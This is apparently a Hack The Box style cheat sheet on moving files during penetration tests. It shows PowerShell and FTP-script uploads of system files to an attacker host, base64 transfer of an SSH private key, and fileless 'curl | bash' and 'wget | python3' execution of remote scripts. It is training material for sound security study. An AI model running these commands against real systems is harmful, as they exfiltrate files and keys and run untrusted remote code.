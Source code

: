 ```
```
### FTP Uploads
Uploading Files using SMB
```
sudo python3 -m pyftpdlib --port 21 --write
```
PowerShell Upload File
```
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```
Create a Command File for the FTP Client to Upload a File
```
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128

Log in with USER and PASS first.


ftp> USER anonymous
ftp> PUT c:\windows\system32\drivers\etc\hosts
ftp> bye
```

## Linux File Transfers
### Download Operations
Base64 Encoding / Decoding
Encoding
```
cat id_rsa |base64 -w 0;echo
```
Decoding
```
echo -n '<base64-string>' | base64 -d > id_rsa
```
### Web Downloads with Wget and cURL
Download a File Using wget
```
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```
Download a File Using cURL
```
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```
### Fileless Attacks Using Linux
```
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```
Fileless Download with wget
```
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```
### Download with Bash (/dev/tcp)
Connect to the Target Webserver
```
exec 3<>/dev/tcp/10.10.10.32/80
```